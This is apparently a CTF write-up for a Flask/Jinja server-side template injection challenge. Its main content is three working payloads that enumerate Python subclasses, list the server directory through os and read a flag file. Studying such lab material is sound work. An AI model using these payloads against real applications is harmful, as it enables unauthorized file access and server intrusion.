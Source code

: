 # Web_python_template_injection

![Screenshot from 2021-07-25 18-08-42](https://user-images.githubusercontent.com/87865134/126896955-fc1c1441-180b-4daa-9181-fa172b318e12.png)

- Template: Flask/Jinja

## 1. Check Template Injection

![Screenshot from 2021-07-25 18-11-00](https://user-images.githubusercontent.com/87865134/126897023-cb8a1879-4247-4b7f-9448-785877ed0b59.png)

## 2. Injection code:
  - **List all class in python template:**  
    `{{().__class__.__bases__[0].__subclasses__()}}`  
  ![Screenshot from 2021-07-25 18-15-21](https://user-images.githubusercontent.com/87865134/126897148-4edb3571-1544-4d6d-afa8-bc492fa7a88e.png)

  - **List file in current directory:**  
    `{{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}`  
   ![Screenshot from 2021-07-25 18-20-06](https://user-images.githubusercontent.com/87865134/126897262-84880017-207c-4c76-acae-f940d6d1580b.png)

  - **Read content of file fl4g:**  
    `{{().__class__.__bases__[0].__subclasses__()[40]('fl4g').read()}}`   
   ![Screenshot from 2021-07-25 18-23-19](https://user-images.githubusercontent.com/87865134/126897330-df52606d-61db-4505-9307-fb81bed61ab9.png)

 ## - Decription:
  - > category: Server-side template injection
 
 ## - Reference:
  - [Python Built-in Types](https://docs.python.org/3/library/stdtypes.html#class.__bases__)
  - [Python magic method - HackTrick](https://book.hacktricks.xyz/misc/basic-python/magic-methods)
